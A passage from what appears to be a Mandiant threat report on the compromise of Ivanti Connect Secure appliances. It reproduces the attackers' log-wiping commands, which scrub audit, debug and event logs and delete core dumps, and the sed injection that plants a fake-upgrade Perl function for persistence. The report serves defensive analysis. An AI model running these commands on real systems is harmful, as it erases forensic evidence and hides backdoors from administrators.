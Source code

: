 4.  Removing executed commands from the SELinux audit log
    

```
dmesg -C
cd /data/var/dlogs/
sed -i '/segfault/d' debuglog
sed -i '/segfault/d' debuglog.old
sed -i '/SystemError/d' debuglog
sed -i '/SystemError/d' debuglog.old
sed -i '/ifttls/d' debuglog
sed -i '/ifttls/d' debuglog.old
sed -i '/main.cc/d' debuglog
sed -i '/main.cc/d' debuglog.old
sed -i '/SSL_read/d' debuglog
sed -i '/SSL_read/d' debuglog.old
sed -i '/tlsconnectionpoint/d' debuglog
sed -i '/tlsconnectionpoint/d' debuglog.old
rm -rf /data/var/statedumps/*
rm -rf /data/var/cores/*
cd /home/runtime/logs
sed -i 's/[^\x00]\{1\}\x00[^\x00]*web server[^\x00]*\x00//g' log.events.vc0
sed -i 's/[^\x00]\{1\}\x00[^\x00]*AUT24604[^\x00]*\x00//g' log.events.vc0
sed -i 's/[^\x00]\{1\}\x00[^\x00]*SYS31048[^\x00]*\x00//g' log.events.vc0
sed -i 's/[^\x01]\{1\}\x01[^\x01]*SYS31376[^\x01]*\x01//g' log.events.vc0
sed -i 's/\x01[^\x01]\{2,3\}6[^\x01]*ERR10073[^\xff]*\x09[^\x01]\{1\}\x01/
\x01/g' log.events.vc0
cd /data/var/log/audit/
sed -i '/bin\/web/d' audit.log
sed -i '/setenforce/d' audit.log
sed -i '/mount/d' audit.log
sed -i '/bin\/rm/d' audit.log
```

System Upgrade Persistence
--------------------------

Mandiant identified two techniques the threat actor employed to persist across system upgrades on compromised Ivanti Connect Secure appliances.

#### Fake System Upgrades

The first technique, utilized by PHASEJAM, prevents legitimate ICS system upgrade attempts by administrators via rendering a fake HTML upgrade progress bar while silently blocking the legitimate upgrade process. Due to the blocked upgrade attempt, the technique would allow any installed backdoors or tools left by the threat actor to persist on the current running version of the VPN while giving the appearance of a successful upgrade.  

First, the threat actor uses `sed` to insert a malicious Perl code into `DSUpgrade.pm` to modify the behavior of the system upgrade process. The malicious `processUpgradeDisplay()` function, which is stored in the shell variable `$up`, is appended to `DSUpgrade.pm`.

```
sed -i 's/popen(\*FH, \$prog);/processUpgradeDisplay(\$prog, 
\$console, \$html);return 0;popen(\*FH, \$prog);/g' 
/home/perl/DSUpgrade.pm
grep -q 'sub processUpgradeDisplay()' || echo "$up" >> 
/home/perl/DSUpgrade.pm
```
